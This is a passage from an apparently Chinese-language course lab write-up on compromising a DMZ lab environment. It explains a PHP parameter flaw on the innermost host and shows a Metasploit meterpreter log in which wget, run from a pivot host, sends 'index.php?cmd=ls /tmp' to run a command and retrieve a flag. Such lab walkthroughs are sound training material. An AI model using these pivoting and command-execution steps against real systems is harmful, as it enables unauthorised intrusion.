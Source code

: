 然后说到漏洞这部分，最内层的这台主机的漏洞比较奇特，没有CVE编号，只是一个用来演示php传参直接可以实现代码执行的漏洞，从课程视频中的演示也可以看出，逻辑上只是需要通过构造GET请求，通过传参给`index.php`实现直接让页面回显'ls /tmp'的内容，想要像样一点的操作的话这部分可以通过BurpSuite来实现的

当然课程视频中的实现方式更为直接，通过跳板主机的shell，用wget直接发送请求，这里也不打算折腾在Metasploit外部额外配置路由转发代理，姑且就按照视频中演示的方式执行就好（中间不小心多打了一个回车导致一点问题，不过无伤大雅就是了）：

```metasploit
msf6 auxiliary(scanner/portscan/tcp) > sessions -i 8
[*] Starting interaction with 8...

meterpreter > shell
Process 628 created.
Channel 256 created.
which wget
/usr/bin/wget
wget '192.172.85.2' -O /tmp/z && cat /tmp/z
--2023-07-26 15:47:10--  http://192.172.85.2/
Connecting to 192.172.85.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: '/tmp/z'

     0K                                                        2.60M=0s

2023-07-26 15:47:10 (2.60 MB/s) - '/tmp/z' saved [21]

index.php?cmd=ls /tmp
wget '
192.172.85.2/index.php?cmd=ls /tmp' -O /tmp/zz && cat /tmp/zz
--2023-07-26 15:47:53--  http://%0A192.172.85.2/index.php?cmd=ls%20/tmp
Resolving \n192.172.85.2 (\n192.172.85.2)... failed: Name or service not known.
wget: unable to resolve host address '\n192.172.85.2'
wget '192.172.85.2/index.php?cmd=ls /tmp' -O /tmp/zz && cat /tmp/zz
--2023-07-26 15:48:07--  http://192.172.85.2/index.php?cmd=ls%20/tmp
Connecting to 192.172.85.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: '/tmp/zz'

     0K                                                        9.73M=0s

2023-07-26 15:48:07 (9.73 MB/s) - '/tmp/zz' saved [68]

index.php?cmd=ls /tmpflag-{bmh6813cff7-ad78-49c7-8ee1-6f4b7629c640}
^Z
Background channel 256? [y/N]  y
meterpreter > background
[*] Backgrounding session 8...
msf6 auxiliary(scanner/portscan/tcp) >
```

至此，整个DMZ主机环境就算是从外层到中层再到内层都拿下了
